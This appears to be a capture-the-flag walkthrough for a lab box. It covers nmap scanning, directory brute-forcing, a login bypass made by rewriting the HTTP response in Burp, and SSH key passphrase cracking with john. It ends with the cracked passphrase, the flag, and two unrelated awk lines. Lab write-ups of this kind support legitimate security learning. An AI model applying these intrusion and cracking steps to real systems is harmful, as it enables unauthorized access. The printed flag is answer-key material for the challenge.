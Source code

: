 1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

 5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}



awk -F ',' '{print$2}' stuff.csv | more
awk -F ',' '{print$2}' stuff.csv | sort -u
